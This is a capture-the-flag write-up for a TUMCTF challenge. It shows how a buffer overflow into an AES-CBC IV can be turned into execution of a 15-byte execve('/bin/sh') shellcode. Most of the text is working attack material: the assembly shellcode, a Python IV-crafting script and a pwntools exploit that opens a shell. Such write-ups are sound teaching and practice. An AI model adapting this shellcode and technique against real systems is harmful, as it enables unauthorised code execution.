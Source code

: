 ## TUMCTF: C0PY_PR073C710N

---------------
## Write-up

For this challenge we are given a binary that decrypts a protected code block, and then jumps to it.
The binary decrypts the protected block using aes128 in cbc mode, and we supply the key.
The key for aes128 is 16 bytes long, and the fgets that reads the key from stdin is reading 33 bytes.
So we have a buffer overflow here, and we can overrun the iv.

Because its a cbc mode encryption, if we know what the encrypted block gets decrypted to, using a specially crafted
IV we can control the first plaintext block - that is, 16 bytes of code to our choosing.

So what can we do with 16 bytes of code?
By the given hint it looks like we should exploit this with ret2libc, but we went a different path.
The shortest shellcode that calls execve /bin/sh that we found is 27 bytes long - much more then we have.
It can be found [here](http://shell-storm.org/shellcode/files/shellcode-806.php)

This shellcode has some constrains that we do not - it has no null bytes. We do not care about having null bytes.
But most importantly, we can pass `/bin/sh` in the key, that is in the stack, in a constant location from rsp
when the shellcode executes! this means, we can drastically reduce the shellcode's size by not including
the string `/bin/sh` with it, but passing it as a part of the key!
By doing this, we reduced the shellcode's size to 15 bytes.
The shellcode was compiled with fasm.
```assembly
use64

; Load path to execute from key.
; The key is in rsp+0x10, and we store the file
; to execute in the end of the key.
lea rdi, [rsp + 0x19]

cdq
push rdx
push rdi

;mov rsi, rsp
push rsp
pop rsi

;Perform the execve syscall
push 0x3b
pop rax
syscall

;pad to 16 bytes
nop
```

So all we need to do now, is craft an iv using the key `aaaaaaaaa/bin/sh`.
the iv crafting script is provided here:
```python
from Crypto.Cipher import AES

DUMMY_KEY = 'aaaaaaaaa/bin/sh'

CIPHER = "\xc8V\xf9]\x1fk\xcd'\\\xd8~\x91\xa8\x90\xa3\x1dI^\xc0\x92)C\xb7\xb9\x9a\xb1I\x1e\x88O\x16\x8E"
CIPHER_16 = CIPHER[:16]

SHELLCODE = 'H\x8d|$\x19\x99RWT^j;X\x0f\x05\x90'


def assert_will_be_shellcode(crafted_iv, shellcode):
	assert shellcode == AES.AESCipher(DUMMY_KEY, IV=crafted_iv, mode=AES.MODE_CBC).decrypt(CIPHER_16)

def make_shellcode():
	return make(SHELLCODE)
	
def make(shellcode):
	global DUMMY_KEY
	
	# AES without IV - ECB mode
	plain_aes = AES.new(DUMMY_KEY)
	crafted_iv = plain_aes.decrypt(CIPHER_16)
	byte_arr = []
	for i in xrange(16):
		byte_arr.append(chr(ord(crafted_iv[i]) ^ ord(shellcode[i])))
	
	crafted_iv = "".join(byte_arr)
	assert_will_be_shellcode(crafted_iv, shellcode)
	
	return DUMMY_KEY + '\0' + crafted_iv
```

and now, send the shellcode the the server, and get a remote shell:

```python
from pwn import *

#r = remote('104.154.90.175', 54509)
r = process('./cat_flag')

r.send('aaaaaaaaa/bin/sh\x00\r\xc1\xae\x19y\xff\xb5\x959\xb7\xd2*\xbc\x9a\x98G')
r.interactive()
```

The exploit doesn't rely on a specific libc version.